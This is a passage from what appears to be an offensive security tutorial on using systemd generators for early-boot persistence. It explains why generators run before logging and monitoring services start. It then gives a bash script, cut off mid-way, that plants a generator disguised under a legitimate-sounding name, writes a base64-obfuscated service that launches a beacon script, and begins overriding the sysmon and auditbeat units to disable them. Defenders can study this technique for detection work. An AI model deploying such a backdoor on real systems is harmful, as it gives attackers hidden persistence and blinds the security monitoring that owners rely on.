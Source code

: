 The directories can be found in the man page but here are some persistent ones:
- `/etc/systemd/system-generators/*`
- `/usr/local/lib/systemd/system-generators/*`
- `/lib/systemd/system-generators/*`
- `/etc/systemd/user-generators/*`
- `/usr/local/lib/systemd/user-generators/*`
- `/usr/lib/systemd/user-generators/*`

One use case for this is backwards compatibility. For example, `systemd-rc-local-generator` and `systemd-sysv-generator` are both used to process `rc.local` and `init.d` scripts respectively. These executables that convert the traditional startup scripts into `systemd` services by parsing them and creating wrapper `service` unit files on boot. It is a preprocessing step for `systemd` before it runs any services.

Other modules can also drop their own executable in one the listed locations and this will also be executed on boot or anytime the systemd configuration is reloaded. For example, installing `openvpn` results in a `/usr/lib/systemd/system-generators/openvpn-generator`  

This is an interesting place to add a backdoor because systemd generators are executed very early in the boot process. In fact, this is the earliest place I've found to get an executable to run without going to the kernel or installing a rootkit. The generator executables are run before any service is started! So when defenders use loggers and sensors services such as `syslog`, `auditd`, `sysmon` or `auditbeat` to monitor a machine, they won't be running to catch actions done by the generators. Moreover, a malicious generator might be able to tamper with the service unit files before they can run.

But there are constraints on this. The man page gives this note:

> Generators are run very early at boot and cannot rely on any external services. They may not talk to any other process. That includes simple things such as logging to `syslog(3)`, or `systemd` itself (this means: no systemctl(1))! Non-essential file systems like /var/ and /home/ are mounted after generators have run. Generators can however rely on the most basic kernel functionality to be available, as well as mounted `/sys/`, `/proc/`, `/dev/`, `/usr/` and `/run/` file systems.


#### 12.2 Creating a malicious generator

Our objective:
- Create a malicious service that will run 
- Disable `sysmon.service` and `auditbeat.service`

We assume that some script `/opt/beacon.sh` already exists. You can replace `ExecStart` with a different path or even add the reverse shell directly.

We drop a simple executable script in `/lib/systemd/system-generators/systemd-network-generator` . When it runs, it will:
- Create a `/run/systemd/system/networking.service` unit file
- Create a symlink to `/run/systemd/system/multi-user.target.wants/networking.service` to enable the service
- Create a `sysmon.service` and `auditbeat.service` that will overwrite the configuration of the original services.

```bash
cat > /usr/lib/systemd/system-generators/systemd-network-generator << EOF
#! /bin/bash

# Create networking.service and enabling it to run later in the boot process
echo 'W1VuaXRdCkRlc2NyaXB0aW9uPW5ldHdvcmtpbmcuc2VydmljZQoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vb3B0L2JlYWNvbi5zaAoKW0luc3RhbGxdCldhbnRlZEJ5PW11bHRpLXVzZXIudGFyZ2V0' | base64 -d > /run/systemd/system/networking.service

mkdir -p /run/systemd/system/multi-user.target.wants/
ln -s /run/systemd/system/networking.service /run/systemd/system/multi-user.target.wants/networking.service


# Create adds dummy service unit files to overwrite sysmon.service and auditbeat.service
mkdir -p /run/systemd/generator.early
```